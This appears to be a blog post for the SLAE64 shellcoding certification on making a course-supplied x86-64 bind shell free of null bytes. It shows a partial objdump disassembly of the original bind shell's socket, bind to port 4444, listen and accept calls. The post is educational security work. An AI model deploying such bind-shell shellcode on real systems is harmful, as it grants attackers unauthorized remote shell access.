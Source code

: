 ```yaml
---
layout: post
title: Null-Free Bind Shell
date: 2021-01-19 20:30:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "SLAE64 - Assignment" will be created in order to fulfill the requirements of the SLAE64 certification.

A Bind shell is a form of malware which grants remote access to a system through a shell. However, it differentiates from its peer the Reverse Shell, binding to a local port of 
the compromised system, instead of arranging a specific connection on a trivial address. Furthermore, after the connection is established, a shell is executed, granting 
interaction to the attacker.

The first assignment from the seven is divided in two sections:

+ A: Requires the creation of a Bind Shell with password protection through the Assembly language, and converting such into shellcode. 
+ B: Requires the alteration of the provided Bind Shell during the course, in order that it no longer possesses any form of NULL bytes (00). 

Due to the reason that in the [previous](https://whitecr0wz.github.io/posts/SLAE64-Bind-Password/) post the first section of the exercise was tackled, this post will be focused 
towards the secondary task.

Let's analyze the Bind Shell given during the course:

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B/og$ objdump -D 1.o -M intel

1.o:     file format elf64-x86-64                                                                                                                                                 

Disassembly of section .text:


0000000000000000 <_start>:
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall 
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   89 44 24 fc             mov    DWORD PTR [rsp-0x4],eax
  21:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  28:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  2f:   48 83 ec 08             sub    rsp,0x8
  33:   b8 31 00 00 00          mov    eax,0x31
  38:   48 89 e6                mov    rsi,rsp
  3b:   ba 10 00 00 00          mov    edx,0x10
  40:   0f 05                   syscall 
  42:   b8 32 00 00 00          mov    eax,0x32
  47:   be 02 00 00 00          mov    esi,0x2
  4c:   0f 05                   syscall 
  4e:   b8 2b 00 00 00          mov    eax,0x2b
  53:   48 83 ec 10             sub    rsp,0x10
  57:   48 89 e6                mov    rsi,rsp
```